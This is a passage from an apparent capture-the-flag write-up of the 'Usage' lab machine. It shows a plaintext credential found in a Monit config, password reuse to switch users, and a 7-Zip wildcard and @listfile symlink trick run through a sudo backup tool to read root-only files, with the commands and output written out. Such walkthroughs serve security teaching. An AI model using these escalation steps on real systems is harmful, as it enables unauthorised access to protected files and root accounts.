drwxrwxr-x 3 dash dash 4096 Aug  7  2023 .local
-rw-r--r-- 1 dash dash   32 Oct 26  2023 .monit.id
-rw------- 1 dash dash 1192 Jul  2 15:49 .monit.state
-rwx------ 1 dash dash  707 Oct 26  2023 .monitrc
-rw-r--r-- 1 dash dash  807 Jan  6  2022 .profile
drwx------ 2 dash dash 4096 Aug 24  2023 .ssh
-rw-r----- 1 root dash   33 Jul  2 14:05 user.txt
dash@usage:~$ cat .monitrc 
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert


#System Monitoring 
check system usage
    if memory usage > 80% for 2 cycles then alert
    if cpu usage (user) > 70% for 2 cycles then alert
        if cpu usage (system) > 30% then alert
    if cpu usage (wait) > 20% then alert
    if loadavg (1min) > 6 for 2 cycles then alert 
    if loadavg (5min) > 4 for 2 cycles then alert
    if swap usage > 5% then alert

check filesystem rootfs with path /
       if space usage > 80% then alert
dash@usage:~$ 
```
We find some credentials in there: `admin:3nc0d3d_pa$$w0rd`

At this point I moved a bit in the wrong direction. We can start _Monit_ and run and access it locally on port 2812. But my efforts to find something out about the program weren't successful.

Then I just tried the password for the user `xander`. And that was the right guess:
```
dash@usage:~$ su xander
Password: 
xander@usage:/home/dash$ cd /home/xander/
xander@usage:~$ ls -al 
total 24
drwxr-x--- 4 xander xander 4096 Apr  2 20:25 .
drwxr-xr-x 4 root   root   4096 Aug 16  2023 ..
lrwxrwxrwx 1 xander xander    9 Apr  2 20:25 .bash_history -> /dev/null
-rw-r--r-- 1 xander xander 3771 Jan  6  2022 .bashrc
drwx------ 3 xander xander 4096 Aug 20  2023 .config
-rw-r--r-- 1 xander xander  807 Jan  6  2022 .profile
drwx------ 2 xander xander 4096 Apr  8 13:17 .ssh
xander@usage:~$
```

### Privilege escalation / Root flag
The user got the sudo rights to call a custom program:
```
xander@usage:~$ sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
xander@usage:~$ 
```

Analyzing the program a bit with Ghidra reveals that it can call one of those two system commands:
```c
system("/usr/bin/mysqldump -A > /var/backups/mysql_backup.sql")
```
```c
chdir("/var/www/html")
[...]
system("/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *")
```

The first one is not interesting for us. But the second is. The parameters will do the following:
* `a /var/backups/project.zip` - stores the files in the archive
* `-tzip` - set type of the archive to zip
* `-snl` - store symbolic links as links
* `-mmt` - enables multi-threading
* `--` - end of options
* `*` - all files in the directory

Everything behind the `--` is treated as path. So if we input a command inhere 7z will create an error. The list-file command can be used here: `<list_file> ::= @{filename}`

We have to create a file beginning with a `@`, so 7z tries to read a list of files from it. To abuse that, we create as well a symlink with the same name as the `@` file. 7z will read the content of the linked file, but since there are no lists in it, it generates an error which reveals the content of the linked file. The file can be something that we aren't allowed to read, since we execute that command with sudo privileges.

_More information can be found at [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#id-7z) or at this [writeup](https://0xdf.gitlab.io/2019/07/20/htb-ctf.html)._

To read out the root flag with that vulnerability, we can use the following commands:
```
xander@usage:/var/www/html$ touch @root.txt
xander@usage:/var/www/html$ ln -s /root/root.txt root.txt
xander@usage:/var/www/html$ ls -al 
total 16
drwxrwxrwx  4 root   xander 4096 Jul  2 19:29 .
drwxr-xr-x  3 root   root   4096 Apr  2 21:15 ..
drwxrwxr-x 13 dash   dash   4096 Apr  2 21:15 project_admin
-rw-rw-r--  1 xander xander    0 Jul  2 19:29 @root.txt
lrwxrwxrwx  1 xander xander   14 Jul  2 19:29 root.txt -> /root/root.txt
drwxrwxr-x 12 dash   dash   4096 Apr  2 21:15 usage_blog
xander@usage:/var/www/html$ sudo /usr/bin/usage_management 
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7763 64-Core Processor                 (A00F11),ASM,AES-NI)

Scanning the drive:
          
WARNING: No more files
139fca1054b0a3345e40c600ff527974

2984 folders, 17973 files, 114778728 bytes (110 MiB)                        

Creating archive: /var/backups/project.zip

Items to compress: 20957

                                                                               
Files read from disk: 17973
Archive size: 54871533 bytes (53 MiB)

Scan WARNINGS for files and folders:

139fca1054b0a3345e40c600ff527974 : No more files
----------------
Scan WARNINGS: 1
xander@usage:/var/www/html$
```
And we got our root flag!

_We can access every file with that. As well the openssh key of the root user to escalate our rights to become root._
